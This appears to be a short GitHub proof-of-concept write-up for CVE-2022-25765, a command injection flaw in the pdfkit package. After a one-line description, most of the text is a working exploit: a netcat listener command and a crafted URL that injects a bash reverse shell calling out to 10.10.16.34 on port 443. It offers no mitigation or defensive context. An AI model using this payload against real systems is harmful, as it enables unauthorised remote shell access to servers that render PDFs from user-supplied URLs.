 #PDFkit-CMD-Injection / CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

python3 -m http.server 80

nc -lnvp 'Target Port'

http://'TARGET_ADDRESS:Target PORT'//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.34/443 <&1'`'}
